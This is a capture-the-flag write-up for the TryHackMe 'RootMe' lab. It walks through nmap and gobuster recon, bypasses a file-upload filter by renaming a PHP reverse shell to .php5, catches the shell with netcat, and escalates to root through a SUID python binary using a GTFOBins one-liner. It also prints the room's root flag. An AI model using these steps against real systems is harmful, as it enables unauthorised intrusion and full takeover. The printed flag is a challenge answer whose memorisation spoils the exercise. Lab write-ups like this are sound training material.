 ```yaml
---
title: "[THM] RootMe"
date: 2023-10-28 00:51:06
tags: [machine]
categories:
- [THM]
---
```


<div style="display: flex; justify-content: center; align-items: center;">
  <img src="rootme.png" title="RootMe" width="300px" height="300px" style="pointer-events: none;">
</div>

## Recon

### nmap

``` bash
$ nmap -sC -sV 10.10.238.95
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 00:14 WEST
Nmap scan report for 10.10.238.95
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports Open:
- 22: SSH
- 80: HTTP

Apache version is 2.4.29

### Gobuster

``` bash
$ gobuster dir --url 10.10.238.95 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.95
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/28 00:17:11 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.238.95/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.238.95/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.238.95/panel/]
/server-status        (Status: 403) [Size: 277]                                 
/uploads              (Status: 301) [Size: 314] [--> http://10.10.238.95/uploads/]
                                                                                  
===============================================================
2023/10/28 00:17:50 Finished
===============================================================
```

Important directories:
/uploads and /panel

### HTTP Page

Page running on port 80:
![](RootMe/page.png)

The /panel directory allows us to upload files
![](RootMe/panel.png)


## Foothold

### Upload RevShell
I tried uploading a php reverse shell, but it does not allow php
![](RootMe/phpnotallowed.png)

I changed the extension from .php to .php5 and it worked

``` bash
$ mv php-reverse-shell.php php-reverse-shell.php5
```
![](RootMe/phpuploaded.png)

The file is now in the uploads directory
![](RootMe/uploadsphp.png)

### Getting a shell

Now we just have to setup a netcat listener and open the file to get a shell
``` bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.132.243] from (UNKNOWN) [10.10.238.95] 60070
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:28:36 up 17 min,  0 users,  load average: 0.00, 0.23, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### user.txt flag

We now have a shell
Next we search for the user flag

``` bash
$ find / -name user.txt 2> /dev/null
/var/www/user.txt
```
We can now get the user flag
![](RootMe/user.txt.png)


## PrivEsc

### SUID

To escalate our privileges, we can search for files that have root SUID permissions

``` bash
$ find / -user root -perm /4000
```
![](RootMe/python.png)
We can run python as root

We can find what code to run to escalate our privileges in [GTFOBins](https://gtfobins.github.io/gtfobins/python/)

``` bash
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

### root.txt flag

Now we just grab the root.txt flag

``` bash
$ cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
![](RootMe/root.txt.png)